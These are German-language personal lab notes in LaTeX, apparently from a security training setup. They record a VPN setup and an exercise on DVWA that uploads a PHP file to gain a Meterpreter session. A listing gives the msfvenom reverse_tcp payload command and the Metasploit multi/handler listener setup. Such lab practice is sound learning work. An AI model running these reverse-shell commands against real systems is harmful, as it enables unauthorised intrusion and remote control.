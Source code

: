 \documentclass[english,runningheads,a4paper]{llncs}[2018/03/10]
\begin{document}
\subsubsection{06.05}
-zum vpn lernen gedacht von 192.168.183.156:8003 ein vpn einzurichten und das dann von meinen desktop zu verbinden mittels des remote server install scripts von gns3 ab dem vpn abschnitt \url{https://docs.gns3.com/1c2Iyiczy6efnv-TS_4Hc7p11gn03-ytz9ukgwFfckDk/}
-testlab per vpn mit dem mitarbeiter netz verbinden wurde aber nicht gutgeheißen
- andere aufgabe wäre mit kali linux bei der dvwa eine command injection auszuführen und dann über die meterpreter console portweiterleitungen von 3306 zu der mysql datenbank zu machen
-im proxmox ne kali linux vm erstellen um auf 192.168.183.156 zuzugreifen
- meterpreter zugriff hat geklappt \url{https://www.hackingarticles.in/hack-file-upload-vulnerability-dvwa-bypass-security/}
- mit elinks auf kali ohne gui den webzugriff zu DVWA, Datei hack.php hochgeladen, payload gestartet und danach auf \url{192.168.183.156/xss/DVWA/hackable/uploads/hack.php} zugegriffen, wodurch die meterpreter session entsteht
\begin{lstlisting}[language=bash]
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.183.183 lport=3333 -f raw
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.183.183
msf5 exploit(multi/handler) > set lport 3333
msf5 exploit(multi/handler) > run
\end{lstlisting}
-portforwarding zugriff auf mysql datenbank hat nicht funktioniert \url{https://www.hackingtutorials.org/metasploit-tutorials/metasploitable-3-port-forwarding/}
\end{document}
